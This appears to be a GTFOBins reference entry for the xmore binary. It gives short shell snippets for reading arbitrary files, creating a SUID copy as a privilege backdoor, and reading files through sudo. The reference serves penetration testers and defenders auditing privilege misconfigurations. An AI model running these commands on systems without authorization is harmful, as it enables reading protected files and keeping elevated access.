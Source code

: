 # GTFOBin: xmore

The file is displayed in a Xorg window, so it needs a working graphical environment.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
xmore $LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which xmore) .

LFILE=file_to_read
./xmore $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo xmore $LFILE
```